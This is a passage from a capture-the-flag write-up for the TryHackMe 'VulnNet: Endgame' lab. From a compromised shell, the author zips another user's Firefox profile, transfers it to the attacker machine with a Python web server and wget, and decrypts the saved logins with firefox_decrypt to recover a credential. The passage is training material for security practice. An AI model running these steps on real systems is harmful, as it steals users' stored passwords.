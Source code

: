 Let's `zip` the entire `.mozilla` and transfer it to the atttacker machine:

```
www-data@vulnnet-endgame:/home/system$ zip -r /tmp/browser.rar /home/system/.mozilla/

www-data@vulnnet-endgame:/home/system$ cd /tmp
www-data@vulnnet-endgame:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# wget http://$RHOSTS:8000/browser.rar

┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# unzip browser.rar
```

```
┌──(root🌸siunam)-[~/…/home/system/.mozilla/firefox]
└─# ls -lah               
total 36K
drwxr-xr-x  7 root root 4.0K Jun 14 13:21  .
drwxr-xr-x  4 root root 4.0K Jun 14 11:56  ..
drwxr-xr-x 13 root root 4.0K Jun 14 10:43  2fjnrwth.default-release
drwxr-xr-x  2 root root 4.0K Jun 14 11:56  2o9vd4oi.default
drwxr-xr-x 13 root root 4.0K Jun 14 13:37  8mk7ix79.default-release
drwxr-xr-x  3 root root 4.0K Jun 14 11:56 'Crash Reports'
-rwxr-xr-x  1 root root   62 Jun 14 11:56  installs.ini
drwxr-xr-x  2 root root 4.0K Jun 14 11:56 'Pending Pings'
-rwxr-xr-x  1 root root  259 Jun 14 11:56  profiles.ini
```

Let's look at one of the directories:

```
┌──(root🌸siunam)-[~/…/system/.mozilla/firefox/2fjnrwth.default-release]
└─# ls -lah 
[...]
-rwxr-xr-x  1 root root  658 Jun 14 10:43 logins.json
[...]
```

Accroding to one of the [Mozilla FireFox support questions](https://support.mozilla.org/en-US/questions/1352064), **the `logins.json` holds the encrypted login credentials.**

To decrypt it, I'll:

- Clone [Firefox Decrypt](https://github.com/unode/firefox_decrypt) repository from GitHub:

```
┌──(root🌸siunam)-[/opt]
└─# git clone https://github.com/unode/firefox_decrypt.git
```

- Decrypt the `login.json` via `firefox_decrypt.py`:

```
┌──(root🌸siunam)-[~/…/home/system/.mozilla/firefox]
└─# python3 /opt/firefox_decrypt/firefox_decrypt.py /root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release 
2022-09-13 00:56:23,056 - WARNING - profile.ini not found in /root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release
2022-09-13 00:56:23,057 - WARNING - Continuing and assuming '/root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release' is a profile location

Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '{Redacted}'
```
